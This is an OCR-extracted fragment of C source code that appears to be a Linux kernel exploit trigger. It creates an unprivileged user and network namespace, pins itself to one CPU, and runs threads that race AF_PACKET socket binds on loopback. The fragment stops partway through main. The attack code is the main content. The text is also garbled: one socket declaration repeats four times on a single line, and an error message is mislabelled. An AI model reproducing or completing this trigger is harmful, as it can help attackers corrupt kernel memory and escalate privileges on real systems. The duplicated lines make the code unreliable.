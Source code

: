 ```c
void setup_sandbox() {
	int real_uid = getuid();
	int real_gid = getgid();
	if (unshare(CLONE_NEWUSER) != 0) {
		perror("unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}
	if (unshare(CLONE_NEWNET) != 0) {
		perror("unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/setgroups", "deny")) {
		perror("write_file(/proc/self/set_groups)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)){
		perror("write_file(/proc/self/uid_map)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
		perror("write_file(/proc/self/gid_map)");
		exit(EXIT_FAILURE);
	}
	cpu_set_t my_set;
	CPU_ZERO(&my_set);
	CPU_SET(0, &my_set);
	if (sched_setaffinity(0, sizeof(my_set), &my_set) != 0) {
		perror("sched_setaffinity()");
		exit(EXIT_FAILURE);
	}
	if (system("/sbin/ip link set dev lo up") != 0) {
		perror("system(/sbin/ip link set dev lo up)");
		exit(EXIT_FAILURE);
	}
	printf("[.] namespace sandbox setup successfully\n");
}
void *trigger(void *unused)
{
	struct ifreq ifreq;
	struct sockaddr_ll addr1, addr2;
	int index;
	int fd = socket(AF_PACKET, SOCK_DGRAM, PF_PACKET);int fd = socket(AF_PACKET, SOCK_DGRAM, PF_PACKET);int fd = socket(AF_PACKET, SOCK_DGRAM, PF_PACKET);int fd = socket(AF_PACKET, SOCK_DGRAM, PF_PACKET);
	memcpy(&ifreq.ifr_name, "lo", 3);
	ioctl(fd, SIOCSIFFLAGS, &ifreq);
	ifreq.ifr_flags = IFF_UP;
	ioctl(fd, SIOCSIFFLAGS, &ifreq);
	ioctl(fd, SIOCGIFINDEX, &ifreq);
	index = ifreq.ifr_ifindex;
	addr1.sll_family = AF_PACKET;
	addr1.sll_ifindex = index;
	bind(fd, (struct sockaddr *)&addr1, sizeof(addr1));
	addr2.sll_family = AF_PACKET;
	bind(fd, (struct sockaddr *)&addr2, sizeof(addr2));
	close(fd);
}
#define NB_T 20
int main()
{
	int i;
	setup_sandbox();
	do {
```